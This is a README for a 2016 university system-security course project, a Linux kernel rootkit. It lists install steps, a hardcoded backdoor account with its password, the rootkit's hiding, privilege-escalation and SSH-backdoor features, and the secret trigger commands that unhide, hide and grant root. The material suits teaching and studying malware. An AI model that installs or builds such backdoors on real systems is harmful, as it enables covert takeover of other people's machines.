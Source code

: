 /**********************************************************************************
 *	Last Updated: Nov 27, 2016
 *	CSE509 System Security Fall 2016
 *	Written By:
 
 		Edwin Yan (edyan@cs.stonybrook.edu)
 		Rashmi Makheja (rmakheja@cs.stonybrook.edu)
 		Sagar Shah (schshah@cs.stonybrook.edu)
 		Vasia Patov (vpatov@cs.stonybrook.edu) 
 *	Project: Rootkit
 **********************************************************************************/
 
 System Specification:
	
		This project is built and tested on ubuntu 12.04 having kernel version 3.2.0-115-generic-pae
		
VM ova: https://goo.gl/zjEnPb
Username : iambate
Password : rootkit1337

Backdoor account:
username : rtry
password : rashmi

Steps to install rootkit:

	1) build the kernel, install modules and reboot the system
	2) cd /home/iambate/sys_sec/1337rootkit
		go to the rootkit folder(assuming the rootkit source is in this folder)
	3) sudo make 
		build the module
	4) sudo insmod 1337Rootkit.ko 
		installs the rootkit module


Illustrations of the basic requirements:

	1) Hide specific files and directories from showing up when a user does "ls" and similar commands
		i)ls
		ii)lsmod
			 rootkit module and files that have '1337' in their name will be hidden
			 
	2) Modify the /etc/passwd and /etc/shadow file to add a backdoor account while returning the original contents of the 		files (pre-attack) when a normal user requests to see the file
		i) sudo cat /etc/passwd
		ii) sudo cat /etc/shadow
			the above two files should not show content related to user 'rtry'(the backdoor account)
		iii) sudo useradd testrootkit509
		iv) sudo passwd testrootkit509
		v) sudo login (login with the newly added user and passwd created in previous step)
		vi) id
		vii)exit
	
	3) Hides processes from the process table when a user does a "ps"
		i) ps
	
	4) Give the ability to a malicious process to elevate its uid to 0 (root) upon demand
		i)setuid 

Steps To remove rootkit:
	
	i) python -c 'import os; os.write(2, "1337show")'
	ii) sudo rmmod -f 1337rootkit.ko

Additional considerations:

	1) No difference in response time of any operation
	2) Selective hijacking for read so that attacker can log in using the backdoor account
	3) Attacker can login through SSH using the backdoor account
	3) Secret methods to hide/unhide rootkit:
		i) echo "The secret way to unhide rootkit is as follows:"
		   python -c 'import os; os.write(2, "1337show")'
		   echo "The rootkit appears"
		   lsmod |grep rootkit
		ii) echo "The secret way to hide it again"
		    python -c 'import os; os.write(2, "1337hide")'
		    lsmod |grep rootkit
		iii) echo "Some normal non-root user"
		     id
		iv) python -c 'import os; os.system("/bin/bash")'
		    id
		v) echo "One secret to get elevate root privileges is as follow:"
		   python -c 'import os; os.write(2, "1337root"); os.system("/bin/bash")'
		   id
		   echo "Congratulations You are root"
		   exit
		vi) echo "Lets try to uninstall the module"
		    sudo rmmod -f 1337rootkit.ko
		vii) echo "User cannot uninstall unless he knows the secret"
		     python -c 'import os; os.write(2, "1337show")'
		     sudo rmmod -f 1337rootkit.ko

Assumptions:

	1) passwd file assumed to be at max 4kb
	2) rootkit is assumed to be present on the victim's system
	
	
